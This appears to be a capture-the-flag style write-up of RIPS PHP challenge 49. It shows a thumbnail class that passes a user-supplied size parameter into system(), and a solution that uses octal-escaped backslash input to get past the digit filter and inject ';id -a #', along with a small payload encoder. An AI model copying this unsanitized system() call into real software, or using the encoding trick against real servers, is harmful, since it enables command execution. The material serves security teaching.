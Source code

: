 ```yaml
---

title: rips-49
author: raxjs
tags: [php]

---
```


$DESCRIPTION

<!--more-->
{{< reference src="https://twitter.com/ripstech/status/1126895171663089664" >}}

# Code
{{< code language="php"  title="Challenge" expand="Show" collapse="Hide" isCollapsed="false" >}}
class ImageViewer {
    private $file;

    function __construct($file) {
        $this->file = "image/$file";
        $this->createThumbnail();
    }

    function createThumbnail() {
        $e = stripcslashes(
            preg_replace(
                '/[^0-9\\\]/',
                '',
                isset($_GET['size']) ? $_GET['size'] : '25'
            )
        );
        system("/usr/bin/convert {$this->file} --resize $e ./thumbs/{$this->file}");
    }

    function __toString() {
        return "<a href={$this->file}>
               <img src=./thumbs/{$this->file}></a>";
    }
}

echo (new ImageViewer("image.png"));

{{< /code >}}

# Solution
{{< code language="php" highlight="" title="Solution" expand="Show" collapse="Hide" isCollapsed="true" >}}
class ImageViewer {
    private $file;

    function __construct($file) {
        $this->file = "image/$file";
        $this->createThumbnail();
    }

    function createThumbnail() {
             // 3) stripcslashes will remove single \
             //    but \\ will result in \
        $e = stripcslashes(
            preg_replace(
                // 2) numbers and \ are allowed
                '/[^0-9\\\]/',
                '',
                // 1) size is user input 
                isset($_GET['size']) ? $_GET['size'] : '25'
            )
        );
        // 4) $e can be used for command injection here when strings are encoded in ocatal, see example
        system("/usr/bin/convert {$this->file} --resize $e ./thumbs/{$this->file}");
    }
    function __toString() {
        return "<a href={$this->file}>
               <img src=./thumbs/{$this->file}></a>";
    }
}
echo (new ImageViewer("image.png"));


// example:
// var_dump(stripcslashes(preg_replace('/[^0-9\\\]/', '',"\\073\\151\\144\\040\\055\\141\\040\\043")));
// string(8) ";id -a #"


// payload = ";id -a #"
// p = []
// for c in payload:
//     p.append("%03d"%(int(oct(ord(c))[2:])))
// print("\\\\" + "\\\\".join(p))



{{< /code >}}